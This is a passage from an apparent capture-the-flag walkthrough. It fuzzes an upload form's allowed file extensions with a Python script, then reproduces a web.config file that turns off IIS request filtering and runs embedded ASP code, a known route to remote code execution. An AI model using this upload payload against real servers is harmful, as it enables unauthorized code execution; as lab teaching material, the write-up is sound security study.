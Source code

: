```python
for extension in open('extensions.list','r'):
        response = FileUpload('mah1ndra.' + extension[:-1])
        if "Invalid File" not in response:
            print(extension)
```
Running the python script gives us the allowed file extensions on the machine. 
```
python3 extensionCheck.py 

Allowed Extensions: 
config
gif
png
jpg
```

### web.config RCE
Looking at the allowed extension. `config` seems to be interesting . quick googling for `aspx config file upload rce`. I came across this awesome blog [Upload a web.config File for Fun & Profit](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/). Which tell in `IIS 7.5` we can upload `web.config` file with `asp` code inside it and achieve `RCE`.

This blog also gives us sample `web.config` file.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```
In the ASP `comment` it is telling us after uploding this `web.config` on the vunlerable `IIS` Website and if it gives `3` as ouput. Then we it is confirmed that its running the `ASP code`.
